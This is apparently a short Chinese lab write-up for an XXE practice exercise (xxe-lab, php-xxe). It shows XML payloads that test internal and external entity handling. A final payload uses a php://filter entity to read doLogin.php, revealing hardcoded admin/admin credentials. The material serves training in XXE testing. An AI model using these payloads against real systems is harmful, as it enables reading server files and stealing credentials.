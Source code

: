 # xxe-lab

## php-xxe

进去看到登入界面

抓包发现是个xml的数据格式

查看是否能引用内部实体

```xml
<!DOCTYPE ANY [<!ENTITY test "hello">]><user><username>"&test;"</username><password>aaaa</password></user>
```

成功得到回显hello

检测服务器是否支持DTD引用外部实体

```xml
<!DOCTYPE ANY [<!ENTITY test SYSTEM "index.html">]><user><username>"&test;"</username><password>aaaa</password></user>
```

发现报错100多行处格式不符合,支持DTD引用外部实体

最终payload为

```xml
<!DOCTYPE ANY [<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">]><user><username>"&test;"</username><password>aaaa</password></user>
```

```php
$USERNAME = 'admin'; 
$PASSWORD = 'admin'; 
```

